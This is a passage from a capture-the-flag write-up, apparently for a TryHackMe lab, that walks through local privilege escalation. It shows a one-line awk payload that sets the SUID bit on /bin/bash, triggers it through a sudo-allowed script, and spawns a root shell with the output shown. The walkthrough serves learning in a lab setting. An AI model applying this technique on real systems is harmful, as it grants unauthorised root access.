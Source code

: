 **Hmm... `awk` cannot open `script.awk`?**

**What if I create a `script.awk` that will execute malicious OS command?**

**In this Stackoverflow [post](https://stackoverflow.com/questions/14634349/calling-an-executable-program-using-awk), we can execute OS command via:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Bank-CTF/images/Pasted%20image%2020221229010028.png)

**Let's create a file called `script.awk`!**
```awk
cat@ubuntu:~$ nano script.awk 
BEGIN{system("chmod +s /bin/bash")}
```

**What this `awk` script do is adding SUID sticky bit to `/bin/bash`, so that we can spawn a Bash shell with root permission.**

**Let's trigger the payload!**
```
cat@ubuntu:~$ sudo /home/patrick/.bank_work/script.sh
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

		***Hello, please enter the numerical hour
			for the time you want to investigate. 
		***Followed by AM or PM 
		***The Four digit date
		***And lastly the game.
	***These are the games: 
BlackJack
Roullette
TexasHoldEm



Example: 
8 AM 0310 BlackJack

 [!!]This is case sensitive.


~#8 AM 0310 BlackJack
~~~~~~~~~~~~~~~~~~~~~~~
~~~~~~~~~~~~~~~~~~~~~~~
```

**Confirm the payload worked:**
```
cat@ubuntu:~$ ls -lah /bin/bash
-rwsr-sr-x 1 root root 1014K Jul 12  2019 /bin/bash
```

**Nice! Let's spawn a Bash shell with SUID privilege:**
```
cat@ubuntu:~$ /bin/bash -p
bash-4.3# whoami;hostname;id;ip a
root
ubuntu
uid=1001(cat) gid=1001(cat) euid=0(root) egid=0(root) groups=0(root),1001(cat)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:72:4d:ef:1b:1f brd ff:ff:ff:ff:ff:ff
```